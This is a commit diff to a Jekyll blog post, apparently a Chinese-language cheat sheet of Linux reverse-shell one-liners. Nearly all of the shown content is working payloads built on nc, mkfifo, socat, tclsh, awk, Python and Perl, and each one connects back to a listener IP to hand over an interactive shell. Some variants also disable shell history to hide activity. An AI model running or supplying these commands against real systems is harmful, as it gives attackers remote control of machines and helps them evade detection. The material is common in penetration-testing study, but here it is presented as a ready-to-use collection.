

Before and after one commit to Urahara3389/Urahara3389.github.io, a Jekyll site: the page built from _posts/2017-01-08-Some Ways To Create An Interactive Shell On Linux.markdown, in a window 1280 px wide and 1400 px high, scrolled down 584 px. Shown: the whole window, without its empty margins (233-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Some Ways To Create An Interactive Shell On Linux

````diff
--- a/_posts/2017-01-08-Some Ways To Create An Interactive Shell On Linux.markdown
+++ b/_posts/2017-01-08-Some Ways To Create An Interactive Shell On Linux.markdown
@@ -25,8 +25,10 @@ $ exec 5<>/dev/tcp/192.168.68.206/2333 cat <&5 | while read line 0<&5; do $line
 
 ```bash
 $ nc -e /bin/sh 192.168.68.206 2333  //linux下默认安装的nc不带e参数，可上传带e参数的nc进行编译运行
-$ rm /tmp/fl;mkfifo /tmp/fl;cat /tmp/fl|/bin/sh -i 2>&1|nc 192.168.68.206 2333 >/tmp/fl
-$ mknod /tmp/fl p | /bin/sh 0</tmp/fl | nc 192.168.68.206 2333 1>/tmp/fl
+$ mkfifo fifo ; nc.traditional -u 192.168.199.199 5555 < fifo | { bash -i; } > fifo
+$ nc 192.168.199.199 5555 -c /bin/bash
+$ if [ -e /tmp/f ]; then rm /tmp/f;fi;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.199.199 5555 > /tmp/f
+$ if [ -e /tmp/f ]; then rm -f /tmp/f;fi;mknod /tmp/f p && nc 192.168.199.199 5555 0</tmp/f|/bin/bash 1>/tmp/f
 $ nc 192.168.68.206 2333|/bin/sh|nc 192.168.68.206 2444  //需要在本地监听俩端口，一个做命令输入，另一个做回显
 ```
 
@@ -38,10 +40,37 @@ $ mknod /tmp/fl p && telnet 192.168.68.206 2333 0</tmp/fl | /bin/bash 1>/tmp/fl
 $ telnet 192.168.68.206 2333|/bin/sh|telnet 192.168.68.206 2444  //需要在本地监听俩端口，一个做命令输入，另一个做回显
 ```
 
+### TCHsh
+
+```bash
+$ echo 'set s [socket 192.168.199.199 5555];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh # tcp
+```
+
+### socat
+
+```bash
+$ socat tcp-connect:192.168.199.199:5555 exec:"bash -li",pty,stderr,setsid,sigint,sane # tcp
+```
+
+### awk
+
+```Bash
+$ # tcp
+$ awk 'BEGIN {s = "/inet/tcp/0/192.168.199.199/5555"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
+$ # udp
+$ awk 'BEGIN {s = "/inet/udp/0/192.168.199.199/5555"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
+```
+
 #### Python
 
 ```bash
+$ # tcp shell
 $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.68.206",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+$ # tcp + pty
+$ python -c "import os; import pty; import socket; lhost = '192.168.199.199'; lport = 5555; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((lhost, lport)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv('HISTFILE', '/dev/null'); pty.spawn('/bin/bash'); s.close();"
+$ # udp +pty
+$ python -c "import os; import pty; import socket; lhost = '192.168.199.199'; lport = 5555; s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect((lhost, lport)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv('HISTFILE', '/dev/null'); pty.spawn('/bin/bash'); s.close();"
+$ # subprocess
 $ python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.68.206',2333))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
 ```
 
@@ -108,6 +137,8 @@ if __name__ == "__main__":
 ```bash
 $ perl -e 'use Socket;$i="192.168.68.206";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 $ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.68.206:2333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
+$ perl -e 'use IO::Socket::INET;$|=1;my ($s,$r);my ($pa,$pp);$s=new IO::Socket::INET->new();$s = new IO::Socket::INET(PeerAddr => "192.168.199.199:5555",Proto => "udp"); $s->send("SHELLPOP PWNED!
+");while(1) { $s->recv($r,1024);$pa=$s->peerhost();$pp=$s->peerport();$d=qx($r);$s->send($d);}'
 ```
 
 ```perl
````
